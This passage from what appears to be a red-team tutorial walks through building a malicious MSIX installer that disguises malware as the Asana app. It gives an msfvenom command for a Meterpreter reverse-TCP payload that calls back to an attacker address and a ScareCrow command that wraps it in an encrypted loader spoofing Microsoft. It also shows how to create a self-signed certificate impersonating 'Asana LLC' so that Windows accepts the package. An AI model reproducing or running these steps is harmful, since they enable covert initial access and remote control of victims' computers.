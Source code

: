 - Now that we have a solid understanding of the file structure. Let us construct our own malicious MSIX payload that installs an application before executing our target malware.

### Setting up the MSIX packaging tool and our setup file

- First, you will need to install the `MSIX packaging tool` from the Microsoft Store.

![msix8](https://github.com/user-attachments/assets/7dbce949-2533-4cad-a1a8-f8a3f749569d)

- You will also need the target application being packaged. I used Asana for this example.

### The implant being staged

- We can quickly create a simple implant for the initial access. I will utilize an awesome repo called Scarecrow which I came across a while back that can create payloads that mimics reputable sources.
- We create our shellcode with msfvenom.

```s
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.75.128 LPORT=9001 -f raw > protection.bin
```

- Then generate the loader using Scarecrow.

```s
./scarecrow -I protection.bin -domain www.microsoft.com -encryptionmode AES
```

![msix9](https://github.com/user-attachments/assets/93b4e2a2-616e-4253-9362-acf0273d7910)

- Host the final loader.

![msix10](https://github.com/user-attachments/assets/488febe7-dc68-46c8-ac93-a63680a57d77)

### Create an SSL certificate

- When running the MSIX file, Windows will check for the `digital signature` of the file to ensure it is legitimate and has not been tampered with. If you were to create an MSIX file without signing it, Windows will throw an error to you rejecting the installation process.
- Threat actors will buy or use stolen certificates in order to create legitimately signed files. For this example, we will work with our own `self-signed certificate`, which we will install the corresponding public key on the target machine in order to bypass the warnings and errors.

1. Create a new self-signed certificate

```s
New-SelfSignedCertificate -CertStoreLocation "Cert:\CurrentUser\My" -TextExtension @("2.5.29.37={text}1.3.6.1.5.5.7.3.3", "2.5.29.19={text}")-Type Custom -KeyUsage DigitalSignature -Subject "Asana LLC" -FriendlyName "Asana LLC"
```

Subject must much the MSIX’s Publisher attribute value.

- You can find the thumbprint of the certificate like this.

```s
Set-Location Cert:\CurrentUser\My
Get-ChildItem | Format-Table Subject, FriendlyName, Thumbprint
```
